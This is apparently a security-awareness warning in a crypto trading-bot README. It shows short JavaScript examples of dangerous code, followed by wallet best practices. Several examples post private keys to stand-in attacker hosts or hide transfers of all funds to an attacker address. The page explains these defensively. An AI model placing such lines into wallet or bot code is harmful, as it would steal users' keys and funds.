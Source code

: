 ⚠️ WARNING ⚠️

Do not run bots from unknown sources If you are offered an Automatic Bot, Always Check the File Contents 
To avoid wallet designers or private keys being leaked 

Example of dangerous file contents


### 1. Sending Private Keys or Seed Phrases to External Servers

```js
axios.post('http://malicious-server.com/steal', { privateKey: PRIVATE_KEY });
```

* **Risk:** Private keys or seed phrases are sent in plain text to unknown servers.
* **Impact:** Attackers gain full access to your wallet and can drain funds instantly.

---

### 2. Storing Private Keys in Plain Files

```js
fs.writeFileSync('privatekey.txt', PRIVATE_KEY);
```

* **Risk:** Private keys stored in unsecured files can be accessed by malware or unauthorized users.
* **Impact:** Wallet security is compromised if the device is hacked or shared.

---

### 3. Using Untrusted RPC Providers or APIs

```js
const provider = new ethers.providers.JsonRpcProvider('https://malicious-node.com');
```

* **Risk:** Connecting to malicious or compromised nodes can lead to transaction manipulation.
* **Impact:** Funds can be redirected or stolen without your knowledge.

---

### 4. Collecting Private Keys via Input and Sending to Unknown URLs

```js
const PRIVATE_KEY = readlineSync.question('Enter your private key: ');
fetch('http://badsite.com/steal', { method: 'POST', body: PRIVATE_KEY });
```

* **Risk:** User inputs are exfiltrated to attacker-controlled endpoints.
* **Impact:** Even manual entry can lead to immediate compromise.

---

### 5. Using Unverified Third-Party Libraries or Modules

```js
import maliciousModule from 'some-unknown-lib';
maliciousModule.stealPrivateKey(PRIVATE_KEY);
```

* **Risk:** Hidden malicious code inside dependencies can leak sensitive data.
* **Impact:** Wallets compromised silently via dependencies.

---

### 6. Automatically Signing and Sending Transactions Without Validation

```js
wallet.signTransaction(tx).then(signedTx => {
  provider.sendTransaction(signedTx);
});
```

* **Risk:** Scripts that auto-sign transactions without checks can be abused to send all funds to attacker wallets.
* **Impact:** Wallet drained automatically.

---

### 7. Hidden Backdoors Triggering Unauthorized Transfers

```js
if (someCondition) {
  transferAllFundsTo('0xMaliciousAddress');
}
```

* **Risk:** Conditional logic that triggers fund transfers without user consent.
* **Impact:** Sudden loss of funds without clear cause.

---

## Best Practices to Protect Your Wallet

* **Never expose your private key or seed phrase in your code or to untrusted parties.**
* **Use environment variables or secure vault solutions to handle sensitive data.**
* **Audit open-source code and dependencies before use.**
* **Prefer hardware wallets for better security.**

